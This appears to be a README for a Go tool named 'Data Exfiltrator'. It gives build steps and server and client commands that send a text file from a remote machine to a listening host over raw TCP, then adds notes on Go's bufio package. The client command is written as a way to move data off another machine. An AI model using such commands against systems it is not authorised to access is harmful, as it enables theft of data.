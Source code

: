 # Data Exfiltrator
This is a simple data exfiltrator for transferring the file from one machine to your local machine if the remote machine can access your local machine.
Generally this purpose is fulfilled with the help of tools like `scp` but that goes over SSH.
This tool will be able to transfer text file from the remote machine to your local over TCP connection.

# Pre-requisites
(Nothing)

# Installing
1. Download the source code
2. Build commands for windows `$ GOOS=windows GOARCH=amd64 go build .` This will create `data_exfiltrator.exe` file which you can use.
3. For linux use `GOOS=linux GOARCH=amd64 go build .` 

## Steps
1. Run `server` subcommand to run a server over your local to accept file transfers from the remote machine. `something.txt` is the file that will have your data once client transfers.
```
$ ./data_exfiltrator server -o something.txt  --host 192.168.56.178
```

2. Download the binary over the remote machine and run the `client` subcommand. The client is (can be on linux as well) on windows and the `random.txt` is the file that will be exfiltrated.
```
$ ./data_exfiltrator.exe client -f random.txt --host 192.168.56.178 --port 8080
```

 
## Bufio
1. Each write is ultimately a syscall and if doing frequently can put burden on the CPU. Devices like disks work better dealing with block-aligned data. To avoid the overhead of many small write operations Golang is shipped with bufio.Writer.
2. Data, instead of going straight to destination (implementing io.Writer interface) are first accumulated inside the buffer and send out when buffer is full.

More on this at https://medium.com/golangspec/introduction-to-bufio-package-in-golang-ad7d1877f762
